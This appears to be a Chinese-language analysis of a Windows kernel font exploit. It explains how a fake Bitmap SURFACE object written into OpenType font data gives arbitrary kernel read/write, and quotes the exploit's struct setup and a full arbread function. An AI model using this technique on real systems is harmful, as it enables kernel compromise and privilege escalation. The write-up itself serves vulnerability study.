 ```
15  unsigned int unk3;
16  unsigned int surflags;
17  unsigned int unk4[12];
18  } SURFACE;

```

其中，Address0其实是指向Bitmap中BitsBuffer的指针，我们可以通过SetBitmapBits函数来操作BitsBuffer指向的内存，可以写入bitmap对象的SURFACE内核结构后，攻击代码就可以通过控制Address0来实现任意地址读写。

在攻击代码中，使用了两个Bitmap对象，一个Bitmap用来控制读写地址，另一个Bitmap2用来进行实际读写，我们将Bitmap2作为读写地址控制器，将其pBitsBuffer指向实现实际读写的Bitmap的pBitsBuffer的地址，这样就可以实现多次稳定的任意地址读写。

也就是说，我们通过对Bitmap2进行 SetBitmapBits,设置实际读写的 Bitmap的pBitsBuffer为我们想要读写的地址，然后就可以通过进行实际读写的Bitmap的GetBitmapBits和SetBitmapBits来实现对指定地址的读写了，如图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/23e4dbec502e830c3d762dff281a27b1cc4b9050.jpg)

我们看到，在攻击代码中，首先创建了一个假的Bitmap对象，然后将这个对象写到字体的Charset中：

```
01  surf32.width = largebitmapw;
02  surf32.height = largebitmaph;
03  surf32.size = surf32.width*surf32.height * 4;
04   
05  //point to hBitmap SURFACE->address0, which contains the kernel address of bitmap data
06  surf32.address0 = surf32.address1 = handleaddr(lpTable->locals->hBitmap) + 0x2C;
07  surf32.scansize = surf32.width * 4;
08  surf32.bmpformat = 0x6; //BMF_32BPP
09  surf32.surftype = 0x00010000; //STYPE_DEVICE
10  surf32.surflags = 0x04800000; //API_BITMAP | HOOK_TEXTOUT
11   
12  //write to the OTF data loaded from font.h
13  for (i = 0; i < sizeof(surf32); i += 2) {
14  unsigned short tmp = *(unsigned short*)((unsigned int)&surf32 + i);
15  *(unsigned short*)(lpTable->lpLoaderConfig->foofont + 0x16DF3 + i) = lpTable->fpHtons(tmp);
16  }

```

上面的攻击代码中，则将这个假的Bitmap对象的address0，也就是pBitsBuffer设置成了进行实际读写的bitmap的pBitsBuffer的地址。所以这个假的Bitmap对象就是我们上面提到的控制读写地址的Bitmap2。

最后下面就是完整的利用这个方式实现的任意内核地址的读（arbread）和写（arbwrite）代码:

```
01  unsigned int arbread(PVTABLE lpTable, unsigned int addrl, unsigned int addrh) {
02  unsigned int tmp[4];// = {0,0,0,0};
03   
04  __MEMSET__(tmp, 0, 4);
05   
06  if (lpTable->locals->is64) {
07  tmp[0] = tmp[2] = addrl;
08  tmp[1] = tmp[3] = addrh;
09  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, sizeof(tmp), &tmp);
10   
11  lpTable->fpGetBitmapBits(lpTable->locals->hBitmap, sizeof(tmp[0]), &tmp[0]);
12  } else {
13  tmp[0] = tmp[1] = addrl;
14  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, 8, &tmp);
15   
16  lpTable->fpGetBitmapBits(lpTable->locals->hBitmap, sizeof(tmp[0]), &tmp[0]);
17  }
18   
19  return tmp[0];
20  }
21   
```